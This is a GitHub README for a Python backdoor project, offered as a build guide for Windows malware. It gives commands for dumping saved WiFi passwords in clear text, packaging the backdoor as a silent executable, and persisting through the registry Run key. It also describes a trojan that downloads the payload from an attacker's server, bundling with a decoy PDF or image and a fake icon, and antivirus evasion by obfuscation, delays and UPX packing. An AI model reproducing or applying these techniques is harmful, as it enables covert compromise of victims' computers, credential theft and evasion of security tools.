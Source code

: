 ## py-backdoor
- Initial Execution
  ![Screenshot 2024-08-08 125205.png](./assets/Screenshot_2024-08-08_125205_1723103941525_0.png)
- Execution after Boot [ Windows-Persistence]
  ![Screenshot 2024-08-08 125543.png](./assets/Screenshot_2024-08-08_125543_1723103929817_0.png)
### </>
- **WiFi-Password Extraction**
	- To show all networks 
	    ``` 
        netsh wlan show profile
        ```
	- To display details of a particular network - 
    	``` 
        netsh wlan show profile <network name> key=clear 
        ```
### Packaging - Download and Execute
- **pyinstaller**
    - **note:** architecture of the target and the attack machine must be the same for this to work
		- ```
		  pyinstaller client.py --onefile
          ```
		- ```
		  pyinstaller backdoor.py --onefile --noconsole -n client.exe
		  ```
- **Silent Execution**
    - `sys.exit() # reliable exit -> prevents error message from being displayed`
	- To execute with no console 
	    ``` 
        pyinstaller client.py --onefile --noconsole 
        ```
		- `subprocess.check_output()` interacts with `stdio` and `stderr` by default
			- to disable interaction
			  ```
			  DEVNULL = open(os.devnull,'wb')
                          # All I/O will be redirected to DEVNULL
			  return subprocess.check_output(command, 
							shell=True,
							stderr=DEVNULL,
							stdin=DEVNULL)
			  ```
- **Persistence**
	- Key - `HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run`
		- Fields
			- Name - `/v`
			- Type - `/t`
			- Data - `/d`
	- Modify key
		- ```
		  reg add HKCU\Software\Microsoft\Windows\CurrentVersion\Run /v Scheduler /t REG_SZ /d C:/Users/user1/AppData/Roaming/scheduler.exe /f 
          ```
	- **note**- since the backdoor starts every time the computer starts; if the listener is not running error will be raised -> to prevent this add `try-catch` to `main`
- `troj_exp.py`
	- downloads the image file and runs it
	- checks to see if backdoor is already present in `appdata` directory
	- if not present it downloads the file from the attacker's python server where both thr `.exe` and `image.png` are served
- Disadvantages with previous build
	- The target needs an internet connection when running the trojan
	- Malware files have to be hosted
### Packaging - Combine Dummy w/ Backdoor
- ```
   pyinstaller --add-data "../dummy/image.png:." --onefile --noconsole backdoor.py -n scheduler.exe
  ```
	- `--add-file` - `src-file-path:.` ; `:.` tell pyinstaller to keep the front files in the default application temp directory
	- The code below executes the front files
	  ```
	  file_name = sys._MEIPASS + "\Resume.pdf"
	  subprocess.call(file_name, shell = True)
	  ```
   	- `_MEIPASS` : the path to the _internal folder within the bundle [ in this case, the Non-Malicious PDF ]
   	- The Backdoor also checks if the current process is being run by a `user` or being run automatically on startup; If it is run by a `user` the PDF file is opened 
- **mask executable** with `.ICO`
	```
	pyinstaller --add-data "../dummy/Template.pdf:." --onefile --noconsole backdoor.py -n Template --icon <path-to-ico-file>
    ```
	- ![image.png](./assets/image_1722969936363_0.png)
### AV-Evasion
- Detection Mechanisms
	- Signature-based bypass measures
		- useless operations - loops, arithmetic etc.
		- encoding and obfuscation
	- Behaviour-based bypass measures
		- Delay execution - use `time.sleep()`
		- Run normal trusted operations before malicious execution
- Compress `exe` - `upx`
	- ```
	  ./upx /<path-to-backdoor.exe> -o compressed_backdoor.exe
      ```
- `IDAPro` can be used to modify the binary itself
